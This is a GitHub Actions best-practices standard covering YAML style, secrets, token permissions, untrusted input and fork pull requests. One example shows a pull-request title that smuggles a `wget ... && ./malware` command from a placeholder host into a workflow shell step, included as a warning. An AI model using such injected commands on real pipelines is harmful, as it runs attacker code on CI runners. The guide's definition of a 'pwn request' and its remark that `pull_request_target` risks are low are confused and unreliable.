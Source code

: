 = TS-X: GitHub Actions Standards
:toc: macro
:toc-title: Contents

:link-docs-concurrency: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#concurrency
:link-docs-permissions: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#permissions
:link-docs-security: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions
:link-docs-security-lab: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

This document serves as a collection of best practices for using (and making)
GitHub Actions.

toc::[]

== YAML syntax

////
TODO: Link to YAML best practices
////

Actions and workflows are defined in YAML files. YAML is designed to be a
human-readable, as well as a machine-parsable, data serialization format. YAML
files SHOULD, therefore, be written primarily with readability in mind.

Consideration SHOULD also be given to the maintenance of YAML files. Give
thought, for example, to how diffs will be presented in source control and
pull request systems. For example, because Git is a line-based version control
system, it is RECOMMENDED to use YAML's multi-line syntax for lists. So,
instead of this…

[source,yaml]
----
on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
----

… do this:

[source,yaml]
----
on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main
----

YAML comment syntax SHOULD be used to document anything that is not intuitively
understood from the YAML data structure and the workflow/action schema.

== Designing workflows and actions

=== General guidelines

* Prefer to compose workflows from modules. Encourage reuse by breaking out
  discrete parts of pipelines into actions, reusable workflows, or workflow
  templates.

* Break down workflows into small, discrete jobs and steps. This will make it
  easier to manage conditions and dependencies.

* Choose descriptive and meaningful names for your secrets and variables. It
  SHOULD NOT be necessary to consult any out-of-band documentation to understand
  the purpose of a secret or variable referenced in a workflow. If the meaning
  of a variable cannot be easily deduced from its name and context, include
  an adjacent comment to explain its purpose.

* Names for workflows, jobs and steps should also be clear and consistent.

* Test workflows thoroughly. Ensure that conditional logic and job dependencies
  work as expected. Do this by testing all the possible scenarios that could
  trigger each workflow.

=== Jobs

A single job may, for example, compile, test _and_ deploy an application. Though
convenient, it is generally considered to be best practice for each job
definition to be responsible for a single concern, and for complex workflows
to be composed from multiple single-responsibility jobs.

This has a number of advantages. For example, workflows will be easier to extend
and maintain, and logging output will be easier to analyze.

=== Steps

All steps SHOULD be given a unique name. This will help to identify the output
of each step in the logs, and so make it easier to debug failed workflows.

[source,yaml]
----
steps:
  - name: Say hello
    run: echo "Hello, world!"
----

=== Expressions

Expressions are commonly used in `if` attributes to make execution of an
individual step or a whole job conditional.

[source,yaml]
----
jobs:
  production-deploy:
    if: github.repository == 'owner/repo' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v2
      - name: Setup Nodes
        uses: actions/setup-node@v2
        with:
          node-version: '14'
      - name: Install bats
        run: npm install -g bats
----

The value of the `if` attribute is treated as a JavaScript expression, rather
than a string value. Expressions can be used in other attributes, which assume
string values by default, using the `${{ <expression> }}` notation. But even in
`if` values, if the expression starts with `!`, the whole expression MUST be
encapsulated in the `${{ }}` syntax, or escaped with `''`, `""`, or `()`.
That's because the exclamation mark is reserved notation in YAML.

So, for consistency, it is RECOMMENDED the `${{ <expression> }}` syntax be used to
wrap all expressions, even those in `if` values where this syntax is not
required.

[source,yaml]
----
jobs:
  production-deploy:
    if: ${{ github.repository == 'owner/repo' && github.ref == 'refs/heads/main' }}
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v2
      - name: Setup Nodes
        uses: actions/setup-node@v2
        with:
          node-version: '14'
      - name: Install bats
        run: npm install -g bats
----

== Performance

=== Minimalism

Keep individual workflows, and reusable actions, as minimal as possible. The
more time something takes to set up and run, the higher the costs of running
your CI/CD infrastructure. Even shaving a few seconds off the run of a
workflow can add up to significant cost savings over a month, a year.

Prefer lightweight actions over heavyweight ones. Prefer JavaScript actions
over container actions, and best of all are composite actions consisting of
simple shell scripts. Where container actions are essential – for example where
you require a specific programming language or toolchain – prefer to use light
images, such as alpine or alpine-node, over heavy ones.

Don't install unnecessary dependencies.

=== Caching

Be sure to use caching wherever possible. Have package managers cache
dependencies, and cache any generated artifacts that can be reused between
jobs or workflow runs.

=== Timeouts

By default, GitHub kills jobs after 6 hours if they have not finished by
then. Many jobs don't need nearly as much time to finish, but sometimes
jobs can hang and the extended run consumes unnecessary minutes, which has a
cost.

It is RECOMMENDED to specify shorter timeouts that are appropriate for each job.
This is specified in minutes via the `jobs.<job_id>.timeout-minutes` attribute.
Example:

[source,yaml]
----
jobs:
  set_config:
    timeout-minutes: 30
    runs-on: ubuntu-latest
    steps:
      - [...]
----

=== Concurrency

It is RECOMMENDED to implement a concurrency strategy for workflows, especially
long-running, resource-intensive ones. This will cancel running workflows in the
same group when an event triggers a new run of the same workflow. For example,
you can automatically cancel intermediate builds on a PR when a newer commit
gets pushed to the PR's source branch.

[source,yaml]
----
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ startsWith(github.ref, 'refs/pull/') }}
----

See the {link-docs-concurrency}[GitHub Docs] for further guidance.

== Security

See also {link-docs-security}[GitHub's Security Hardening for GitHub Actions]
guide, and also the series of posts on {link-docs-security-lab}[GitHub's
Security Lab] blog starting with "part 1: preventing pwn requests".

=== Secrets

Do not hard-code API keys, tokens, passwords, or other such secrets in workflow
files, even if those files are committed to private repositories. All sensitive
data MUST be managed via GitHub Secrets. GitHub Secrets provides a safe way to
store and use secrets in your workflows.

[TIP]
======
CI workflows are also a good place to implement secrets detection using tools
like https://github.com/GitGuardian/ggshield-action[GitGuardian].
======

Secrets SHOULD be regularly rotated, and unused ones deleted. Restrict who has
permissions to create and update secrets.

Do not use complex data types for storing secrets. Secrets SHOULD be
primitive values such as strings or numbers.

[source,txt]
----
# Good
SENSITIVE_VALUE1 = "abcdef"
SENSITIVE_VALUE2 = 123456

# Bad
{
  "sensitiveValue1": "abcdef",
  "sensitiveValue2": 123456
}
----

Be sure to mask any generated sensitive values in log output. Audit the source
code of third party actions to make sure they do the same.

[source,yaml]
----
echo "::add-mask::$GENERATED_SENSITIVE_VALUE"
----

=== Tokens

Avoid storing tokens (and other long-lived secrets) where possible. For example,
rather than using API keys to authenticate with your infrastructure providers,
prefer using OpenID Connect (OIDC).

.How to use OpenID Connect
****
The following steps are done in your cloud provider:

1.  Create a role to be used only by your workflows. The role should contain the
    minimum set of permissions for the workflows to accomplish their tasks.

2.  Create an OIDC trust in the cloud provider. The trust should specify which
    repositories are allowed to obtain tokens, as well as any additional
    information necessary to increase security.

The following steps are done in the GitHub Actions workflows:

1.  Exchange GitHub's OIDC token for access credentials. There are several
    open source actions available from the marketplace that implement this
    exchange process.

2.  Use the short-lived credentials to manage resources. The short-lived
    credentials will be valid only for a single job, and will automatically
    expire after that.
****

DO NOT use classic Personal Access Tokens (PATS) to grant workflow access to
code from another repository. Ideally, create a GitHub App and use its
short-term credentials. If needed, use a fine-grained PAT and give it as few
permissions as necessary for the workflow to do its job (ie. only read access
to the required repositories).

When using fine-grained PATs, rotate then regularly. PATs are bound to specific
GitHub users, so it is RECOMMENDED to create a generic shared user account
against which to create your PATs.

=== `GITHUB_TOKEN` permissions

By default, `GITHUB_TOKEN`, which is automatically generated on each run, is
given wide-ranging permissions to GitHub resources and operations. The principle
of least privilege should be applied to these tokens, which means restricting
permissions to the minimum required to do the job.

Permissions SHOULD be explicitly restricted on a per-workflow basis using
the `permissions` attribute.

[source,yaml]
----
name: Open new issue
on: workflow_dispatch

jobs:
  open-issue:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      issues: write
    steps:
      - run: |
          gh issue --repo ${{ github.repository }} \
            create --title "Issue title" --body "Issue body"
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
----

See the GitHub Docs for a full {link-docs-permissions}[list of available
permissions].

[IMPORTANT]
======
Workflows MUST OT pass the `$GITHUB_TOKEN` value to untrusted third-party
software, including actions from untrusted sources.
======

The same practices apply for all kinds of tokens you create to authenticate
with any kind of service, and which you store in GitHub Secrets. Always restrict
permissions to the bare essentials, and rotate tokens regularly – whatever those
tokens are used for.

=== Environment variable scope

To limit their scope, environment variables should be declared at the step
level wherever possible. Elevate them to the job or (rarely) the workflow
level only to solve the problem of sharing data between steps within a job,
and between jobs within a workflow.

=== Untrusted input

Don't directly reference values you don't control. Consider the following
example:

[source,yaml]
----
- name: lint
  run: |
    echo "${{github.event.pull_request.title}}" | commitlint
----

This allows for injection of malicious code into the workflow. For example,
raising a PR with the following title…

[source,txt]
----
a" && wget https://example.com/malware && ./malware && echo "Title
----

… would cause the following code to be executed in your runner:

[source,txt]
----
echo “a" && wget https://example.com/malware && ./malware && echo "Title” | commitlint
----

The following event context data cannot be trusted:

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* `github.event.pull_request.head.ref`
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

There are two possible solutions. The RECOMMENDED one is to create custom
actions with input arguments, rater than executing inline shell scripts:

[source,yaml]
----
uses: fakeaction/printtitle@v3
with:
  title: ${{ github.event.pull_request.title }}
----

Alternatively, bind the value to an intermediate environment variable:

[source,yaml]
----
- name: Print title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    echo "$PR_TITLE"
----

[TIP]
======
It is best practice to double-quote shell variables to avoid word splitting.
This practice is relevant to shell scripting in general, and is not specific
to GitHub Actions.
======

In addition, it is RECOMMENDED to use code scanning tools to help detect
potential exploits in your workflow code.

=== Consuming open source actions

There are many open source GitHub Actions that can be plugged in to your own
workflows. However, just like with any open source software, open source actions
MUST be carefully audited before integrating them into your development
toolchain. The risks are similar to using package managers to automate the
integration of third party components into your applications.

The following steps are RECOMMENDED when using third-party actions:

* Use only actions that are actively maintained. Check that bugs are triaged
  and fixed, and that reported security vulnerabilities are quickly patched.

* Use only actions that are published to the GitHub Marketplace, and only actions
  that have been verified by GitHub.

* Review the action's `action.yml` file for inputs and outputs, and check that
  the code does what it says it does.

* Include a specific version of the action, which you have audited. Best practice
  is to specify a commit SHA, rather than a branch or version tag. This ensures
  that the action's code is locked down and cannot be changed without you
  explicitly updating the version referenced from your workflow configuration.
  This will help to protect you from unexpected supply-chain compromises in the
  future.

[source,yaml]
----
- name: Checkout code
  uses: actions/checkout@a12a3943b4bdde767164f792f33f40b04645d846
----

=== PRs from forks

It is RECOMMENDED to disable automatic workflow runs from events triggered from
forks.

Workflows on pull requests to public repositories from _first-time_ outside
contributors will not run automatically by default, but it is RECOMMENDED that
you disable automatic workflow runs from being triggered by external
contributors _all of the time_.

Project maintainers MUST review code coming from external PRs before triggering
the CI to run on those changes. Workflow approval requirements can be configured
for a repository, organization, or at the enterprise level.

More generally, when adding workflows to public repositories, consider the
security implications by asking yourself the following questions:

* What events could trigger a run?
* What code will be executed in the runner? Can it be trusted?
* What inputs are given to the workflow? Can _that_ be trusted?
* What data, secrets, and services does that code access?

Use of the `pull_request_target` event is especially dangerous and its usage
MUST be restricted to a few specific use cases Specifically, when workflows
runs are triggered by this event type, the workflows MUST NOT check out code,
build or run code from the repository.

[source,yaml]
----
on: pull_request_target
#...
  - uses: actions/checkout@v3
    with:
      ref: ${{ github.event.pull_request.head.sha }}
----

Normally, workflow runs triggered from forks do not have access to secrets,
or write access to the repository. But the `pull_request_target` event is a
special case. For this event, the runner will be given the _base_ repository's
secrets and by default the `GITHUB_TOKEN` will be granted write permissions
on the PR's base repository. This opens up more potential attack vectors than
the conventional `pull_request` event (for which `GITHUB_TOKEN` has only read
access to the base repository and no other secrets are given to the runner).

Even though workflow runs triggered by `pull_request_target` events happen
in the context of the base repository, rather than the head branch of the
fork repository (which is what the `pull_request` event does), GitHub
nevertheless RECOMMENDS that workflow runs triggered by `pull_request_target`
events do not checkout, build or run any code from the base repository. In
addition, to prevent cache poisoning, such workflows SHOULD NOT save any caches.

The purpose of these recommendations is to protect against a security
vulnerability known as a "pwn request", which is when an attacker has gained
access to a system and has compromised the passwords of users, or other secrets,
of that system.

There is more detail on this attack vector on {link-docs-security-lab}[GitHub's
Security Lab] blog. Although the risks are low (because workflows triggered by
`pull_request_target` events run on _your_ code not _their_ code), this event
type SHOULD be reserved for limited use cases. GitHub's documentation states
that this event type was introduced "to enable workflows to label PRs (eg. needs
review) or to comment on the PR" and is not intended to be used for any kind
of building, running, or other processing of the PR's changeset.

In summary, whenever you use `pull_request_target` in a workflow, the workflow's
jobs MUST NOT check out, build, or run the repository's code.

=== Self-hosted runners

Use self-hosted runners only for running workflows defined in private
repositories. Any code that `runs-on: self-hosted` runners MUST be kept private.

This is because, if in a public repository, third parties could run malicious
code on your self-hosted runners by forking the public repository and then
opening a pull request that triggers a workflow to run on the _their_ code in
the head branch of their fork. Thus, the code executed in _your_ self-hosted
runner is untrusted.

If you are using self-hosted runners, you are fully responsible for hardening
your infrastructure to keep it secure from malicious use like this, for example
by:

* Configuring a dedicated low-privilege user.
* Using isolated and ephemeral workloads to execute the jobs.
* Implementing logging and monitoring to ensure visibility.

But the ultimate security is to make sure that your self-hosted runners can only
be used by trusted users inside your organization. That means keeping private
the workflows and actions that run on them.

[NOTE]
======
GitHub doesn't allow personal accounts to use self-hosted runners on public
repositories, but they do allow organizations to do so.
======

=== GitHub-hosted runners

It is recommended to pin workflows to specific runner versions, such as
`ubuntu-22.04` rather than `ubuntu-latest`. This means you must manually
update workflow configurations when old runner versions are deprecated,
but the tradeoff is your workflows will be more stable in the meantime.
(This is less an issue of security, more an issue of maintenance.)

[source,yaml]
----
# Prefer:
runs-on: ubuntu-22.04

# To:
runs-on: ubuntu-latest
----
